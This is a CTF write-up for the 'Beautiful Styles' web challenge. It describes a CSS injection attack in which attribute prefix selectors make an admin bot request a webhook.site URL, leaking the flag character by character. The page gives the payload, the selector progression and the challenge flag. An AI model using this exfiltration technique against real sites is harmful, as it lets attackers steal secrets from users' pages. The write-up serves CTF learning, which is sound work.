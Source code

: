 # [WEB] Beautiful Styles
## Description
I opened a contest to see who could create the most beautiful CSS styles. Feel free to submit your CSS styles to me and I will add them to my website to judge them. I'll even give you a sample of my site to get you started. 
Flag only consists of numbers and uppcase letters and the lower character f.

Author: Junhua

http://challs.nusgreyhats.org:3333

# Approach
Entering the website, we are greeted with the following landing page, consisting of a source code of some web content and also an input for CSS styling.

![Landing Page](./images/landing_page.png)

After clicking on the submit button, we are redirected to another page `/submission/submission_id` showing us the preview of how our CSS input has changed the styling of the web content. 
There is also a button to submit our code for judging, which is likely visited by some kind of admin bot.

![Submission Page](./images/submission_page.png)

From the source code of the web content that they've shown us, we know that the flag is stored in an input tag, within the "value" attribute.
To exploit CSS injection, we provide the following CSS:

```
input[value^=grey\{] {
    background-image: url(https://webhook.site/XXX)
}
```

Get your own webhook URL [here](https://webhook.site/)

The `^=` selector will lead to the url being accessed if the value attribute starts with the specified string `grey{`, which we know it would be since it is part of the flag format. 
We just need to submit the CSS for judging to let the admin bot execute it. Since the admin bot (judge) is the one making request, its flag value will be the legitimate one which we are looking for, and not the fake flag which we see currently.
When the admin bot loads our CSS, our webhook is called.

From there on, we just need to perform what I call a `Inference-Based Blind Attack` (aka Brute-forcing) to add on additional characters to the value, recording down whenever our webhook receives a request. 
Eventually, it builds up to the following:

```
input[value^=grey\{X]
input[value^=grey\{X5]
input[value^=grey\{X5S]
input[value^=grey\{X5S3]
...
input[value^=grey{X5S34RCH1fY0UC4NF1ND1T\}]
```

![Webhook Requests](./images/webhook_requests.png)

I have provided an automation script in this challenge folder. However, the script has to be run for each character of the flag, up until the last character of the flag `}` is present in the built `currentFlag` variable, which you will need to update each time you run the script. This is because I am not able to figure out a way to let the script know when our webhook gets called by the admin bot.

For keeping track of our flag which is being "built", we can append a `?c={Current Flag Progress}` query parameter to our webhook URL (included in the script). This way, we can monitor which character is next in the flag via the webhook page.

![Flag](./images/flag_revealed.png)

Flag: `grey{X5S34RCH1fY0UC4NF1ND1T}`

Script: [solve.py](https://raw.githubusercontent.com/0necloud/CTF-Writeups/refs/heads/main/Grey%20Cat%20The%20Flag%202024/Beautiful%20Styles/solve.py)